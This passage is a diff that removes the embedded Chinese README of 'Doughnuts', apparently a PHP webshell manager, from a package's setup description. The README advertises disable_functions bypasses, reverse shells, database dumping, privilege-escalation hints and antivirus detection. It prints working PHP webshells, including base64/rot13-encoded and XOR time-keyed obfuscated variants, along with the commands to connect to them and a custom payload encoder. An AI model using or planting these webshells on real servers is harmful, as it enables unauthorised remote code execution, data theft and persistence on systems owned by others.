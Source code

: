 ```diff
-    'long_description': '# Doughnuts\n\n*一个基于Python3.6+的PHPwebshell管理器*\n\n![main1.png](https://i.loli.net/2020/11/15/QhsPHi7DojbMXcu.png)\n\n![info1.png](https://i.loli.net/2020/11/15/rjAd6hO4fQEWXbi.png)\n\n![part1.png](https://i.loli.net/2020/11/15/weaESdmyCxGV3Jr.png)\n\n![part2.png](https://i.loli.net/2020/11/15/pKlViB9qQvjh82F.png)\n\n![part3.png](https://i.loli.net/2020/11/15/P4T3GfyFXcNbkwQ.png)\n\n![part4.png](https://i.loli.net/2020/11/15/HZu3jdNXB4SoWxU.png)\n\n## 使用文档\n\n***终于迎来了新的使用文档！***\n\n详细使用文档请前往[此页面](http://doughnuts.cc/)进行查看。\n\n## 特征\n\n- 支持连接,记录,管理webshell,方便下一次连接\n- 基于eval的连接,支持GET,POST,COOKIE,HEADER四种连接方式\n- **请求与响应伪装**\n- 支持编码payload(已内置base64,str_rot13,hex,doughnuts四种编码,可以通过添加encode文件夹中的py文件进行扩展),以实现连接带有解码的webshell\n- 支持绕过open_basedir\n- 支持多种方式绕过disable_functions\n    - 自动识别\n    - php7-backtrace\n    - php7-gc\n    - php7-json\n    - php7-plDoublyLinkedList\n    - LD_PRELOAD\n    - FFI\n    - COM\n    - imap_open\n- 核心功能\n    - 获取网站,系统,进程信息\n    - 输出disbale_functions\n    - 寻找可写的PHP文件(以树状结构显示)\n    - 寻找配置文件(文件名中包含cfg/config/db/database) 也可以通过修改代码来支持寻找更多的文件(以树状结构显示)\n    - 执行自定义的php代码\n    - 获取一个临时的非完全交互式shell和webshell\n    - 正向/反弹shell\n    - (仅限双方均为*unix)获取完全交互式的反弹shell\n    - 读/写/上传/下载/删除/搜索文件,目录打包\n    - 数据库管理,脱库\n    - 端口扫描\n    - 内网网页文本式浏览代理，可自定义请求方法和数据\n    - 开启socks5服务器\n    - 检测suid文件并给出提权建议 / 检测杀毒软件\n    - 可以支持简易弹meterpreter的shell\n- 易于扩展\n\n## 依赖\n\n- Python3.6+\n- Python-requests\n- Python-pysocks\n- Python-colorama\n- Python-prettytable\n\n## 安装/运行方法\n\n***请在3.2版本之前运行过`python3 -m doughnuts.install`安装的朋友在更新3.2版本之后重新执行此命令!***\n\n- 使用pip安装\n\n```sh\n# 安装\npython3 -m pip install doughnuts --user -i https://pypi.org/simple/\n# (windows)添加一个bat文件到python根目录下\n# (*unix)添加一个可执行文件到/usr/local/bin下\n# 安装启动器,以方便调用\npython3 -m doughnuts.install\n# 运行\ndoughnuts\n# 或\npython3 -m doughnuts\n# enjoy it!\n```\n\n- 通过poetry安装\n\n```sh\npyton3 -m pip install poetry # 或其他方法安装python-poetry\ngit clone https://github.com/WAY29/Doughnuts.git\ncd Doughnuts\n# debian/ubuntu系统需要运行此命令\napt-get install python3-venv\n# 安装\npoetry install\n# 运行\npoetry run python3 Doughnuts/doughnuts.py # 应该对所有系统生效\n# enjoy it!\n```\n\n- 直接安装\n\n```sh\n# 安装PYTHON 3.6+\ngit clone https://github.com/WAY29/Doughnuts.git\ncd Doughnuts/doughnuts\npip3 install -r requirements.txt 或 pip3 install requests pysocks colorma prettytable tqdm\n# (windows)添加一个bat文件到python根目录下\n# (*unix)添加一个可执行文件到/usr/local/bin下\n# 安装启动器,以方便调用\npython3 install.py\n# 运行\ndoughnuts\n# 或\npython3 doughnuts.py\n# enjoy it!\n```\n\n## 使用例子\n\n*由于windows原因，在windows命令行连接下不支持&符号连接参数。\n尽量将额外参数包裹引号进行传递，且逐一拆分。\n好的习惯:"data:a=123" "data:b=456"\n坏的习惯:"data:a=123&b=456" (在windows命令行下会连接失败)*\n\n1. 普通webshell:\n\n    - 最平凡的webshell:\n\n        ```php\n        //test1.php\n        <?php\n        error_reporting(0);\n        eval($_POST[\'2333\']);\n        ?>\n      ```\n      那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:\n      ```\n      connect http://localhost/test1.php POST 2333\n      ```\n      \n    - 带解码的webshell:\n\n        ```php\n        //test2.php\n        <?php\n        error_reporting(0);\n        eval(str_rot13(base64_decode($_REQUEST[\'2333\'])));\n        ?>\n      ```\n    那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:\n      \n      ```\n      connect http://localhost/test2.php POST 2333 rot13 base64\n      ```\n      \n    - 需要额外参数与解码的webshell:\n\n        ```php\n        //test3.php\n        <?php\n        if(@md5($_POST[\'a\']) == "202cb962ac59075b964b07152d234b70"){  // a=123\n        \t@eval(base64_decode($_POST[\'2333\']));\n        }\n        ```\n\n        那么只需要运行Doughnuts.py,并输入以下命令,即可成功连接至webshell:\n\n        ```\n        connect http://localhost/test.php POST 2333 base64 "data:a=123"\n        ```\n\n2. 生成webshell:\n\n    1. 在执行`python3 -m doughnuts.install`之后执行`doughnuts generate a.php POST pass salt 1`在当前目录下生成Pudding类型的webshell:a.php\n    2. 上传a.php,根据提示执行 `doughnuts connect {木马url} POST pass doughnuts-salt `连接至webshell\n\n## 自定义编码器\n1. 进入doughnuts/encode目录\n2. 新建/拷贝一个py文件,起一个名字,以time.py为例\n3. 文件中只需要写一个run函数,类似于\n```python\nfrom libs.config import alias\n\n\n@alias(True)\ndef run(data: str):\n    cipher = data\n    return cipher\n```\n4. 参数解释: data是传输的数据,为字符串,cipher为传出的数据,也应该为字符串\n5. 重启doughnuts即可使用`se/show_encoders`命令查看自定义的编码器,连接时使用`connect URL 请求方法 密码 编码器名字`即可使用自定义编码器\n6. 一个例子,以时间为秘钥的编码器\n```python\nfrom libs.config import alias\nfrom hashlib import md5\nfrom base64 import b64encode\nimport time\n\n\n@alias(True)\ndef run(data: str):\n    format_time = time.strftime("%Y-%m-%d %H:%M", time.localtime())\n    key = md5(format_time.encode()).hexdigest().encode()\n    data = data.encode()\n    cipher = bytes(data[i] ^ key[i % 32] for i in range(len(data)))\n    cipher = b64encode(cipher).decode()\n\n    return cipher\n```\n对应的php webshell\n```php\n<?php \nclass COMI { \n    public $c=\'\';\n    function __destruct() {\n        return eval(substr($this->c, 0));\n    }\n}\ndate_default_timezone_set("PRC");\n$comi = new COMI();\n$password = &$password1;\n$password1 = $_REQUEST[\'x\'];\n$post = &$password;\n$post=base64_decode($post);\n$key=md5(date("Y-m-d H:i",time()));\nfor($i=0;$i<strlen($post);$i++){\n    $post[$i] = $post[$i] ^ $key[$i%32];\n}\n$lnng1 = &$lnng;\n$lnng = $post;\n$lnng2 = $lnng1;\n@$comi->c = substr($lnng2, 0);\n?>\n```\n\n## 自定义webshell模板\n1. 进入doughnuts/webshell_plugins目录\n2. 新建/拷贝一个py文件,起一个名字,以test.py为例\n3. 文件中只需要写一个get_php函数,类似于\n```python\ndef get_php(keyword: int = 4, passwd: str = "", salt: str = ""):\n    ...\n```\n4. 各个参数解释\n    - keyword是一个数字对应一种请求方式,分别对应: GET->3 POST->4 COOKIE->5 HEADER->6\n    - passwd是连接webshell的密码\n    - salt是用于加密算法的盐,你可以不需要使用这个参数,但是函数定义里必须存在\n5. 重启doughnuts或者在doughnuts使用`reload generate`重新加载generate命令,即可使用doughnuts生成自定义webshell\n\n## 参考\n\n- https://github.com/WangYihang/Webshell-Sniper\n- https://github.com/epinna/weevely3\n\n## 更新日志\n\n### 4.9\n- 4.9.0\n    - 修改核心\n        - 添加custom_plugins目录,用于存放用户自己编写的插件\
```
